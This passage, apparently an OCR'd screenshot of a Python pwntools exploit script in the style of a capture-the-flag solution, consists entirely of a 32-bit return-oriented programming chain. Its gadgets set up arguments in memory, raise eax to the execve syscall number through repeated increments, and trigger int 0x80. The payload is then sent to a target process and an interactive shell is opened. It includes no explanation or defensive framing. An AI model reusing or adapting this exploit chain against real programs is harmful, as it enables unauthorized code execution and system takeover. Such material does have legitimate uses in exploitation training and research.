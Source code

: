 ```python
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0807d1fb) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806970e) # pop edx ; pop ebx ; pop esi ; ret
p += pack('<I', 0x0811e048) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0805ba10) # xor eax, eax ; ret
p += pack('<I', 0x0807d1fb) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0804901e) # pop ebx ; ret
p += pack('<I', 0x0811e040) # @ .data
p += pack('<I', 0x08061c9d) # pop ecx ; ret
p += pack('<I', 0x0811e048) # @ .data + 8
p += pack('<I', 0x0806970e) # pop edx ; pop ebx ; pop esi ; ret
p += pack('<I', 0x0811e048) # @ .data + 8
p += pack('<I', 0x0811e040) # padding without overwrite ebx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0805ba10) # xor eax, eax ; ret
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804c6c2) # int 0x80
process.sendline(p)

process.interactive()

```
